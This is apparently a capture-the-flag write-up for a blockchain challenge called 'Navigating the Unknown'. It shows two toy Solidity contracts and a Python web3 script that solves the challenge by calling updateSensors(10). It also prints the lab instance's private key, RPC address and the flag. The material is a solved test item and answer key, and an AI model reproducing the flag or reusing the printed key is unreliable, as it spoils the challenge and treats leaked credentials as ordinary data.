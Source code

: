 # **Navigating the Unknown**

## **Description**  
```
Your advanced sensory systems make it easy for you to navigate familiar environments, but you must rely on intuition to 
navigate in unknown territories. Through practice and training, you must learn to read subtle cues and become comfortable 
in unpredictable situations. Can you use your software to find your way through the blocks?
```

First let's download the [files](./downloadable/blockchain_navigating_the_unknown.zip) 

**Setup.sol**
```solidity
pragma solidity ^0.8.18;

import {Unknown} from "./Unknown.sol";

contract Setup {
    Unknown public immutable TARGET;

    constructor() {
        TARGET = new Unknown();
    }

    function isSolved() public view returns (bool) {
        return TARGET.updated();
    }
}
```

**Unknown.sol**
```solidity
pragma solidity ^0.8.18;


contract Unknown {
    
    bool public updated;

    function updateSensors(uint256 version) external {
        if (version == 10) {
            updated = true;
        }
    }

}
```

## **Approach**

This challenge is pretty straight forward, we need to call the isSolved Function after we modify the Sensors to 10 using the **updateSensors** function and use '10' as the value.

Here is the addresses I needed to solve this challenge

```
Private key     :  0x0dc1e9fad2d3a457b14eae02832793477b47ba57e3874c8880dcd1926db58dba
Address         :  0xB54DA7d0f1D92bDFc58E270Ef4443d06a8A065B4
Target contract :  0x4B4cfD341FdD38Ea36795d348DE88499B34A720e
Setup contract  :  0x4465FeeDCC09Df82C477b54635aa3FEDb12c1849
```
And the final payload would look like this.

```python
from web3 import Web3
from web3.middleware import geth_poa_middleware
import requests

rpc_url = "http://46.101.80.159:31608"

contract_address = "0x4B4cfD341FdD38Ea36795d348DE88499B34A720e" #TARGET

abi = '[{"inputs": [{"internalType": "uint256","name": "version","type": "uint256"}],"name": "updateSensors","outputs": [],"stateMutability": "nonpayable","type": "function"},{"inputs": [],"name": "updated","outputs": [{"internalType": "bool","name": "","type": "bool"}],"stateMutability": "view","type": "function"}]'
wallet_address = "0xB54DA7d0f1D92bDFc58E270Ef4443d06a8A065B4"
wallet_privatekey = "0x0dc1e9fad2d3a457b14eae02832793477b47ba57e3874c8880dcd1926db58dba"
web3 = Web3(Web3.HTTPProvider(rpc_url))
web3.middleware_onion.inject(geth_poa_middleware, layer=0)

contract = web3.eth.contract(address=contract_address,abi=abi)

nonce = web3.eth.get_transaction_count(wallet_address)


tx = {
    'nonce' : nonce,
    'gas' : 100000,
    'gasPrice' : web3.to_wei('4','gwei'),
    'from': wallet_address
}

transaction = contract.functions.updateSensors(10).build_transaction(tx)
signed_tx = web3.eth.account.sign_transaction(transaction, wallet_privatekey)
tx_hash = web3.eth.send_raw_transaction(signed_tx.rawTransaction)
transaction_hash = web3.to_hex(tx_hash)
tx_receipt = web3.eth.wait_for_transaction_receipt(tx_hash)
print(tx_receipt)
```

Notice the abi needed is only the setup one, because it's already import the 'unknown.sol'.

### **Flag**

```HTB{9P5_50FtW4R3_UPd4t3D}```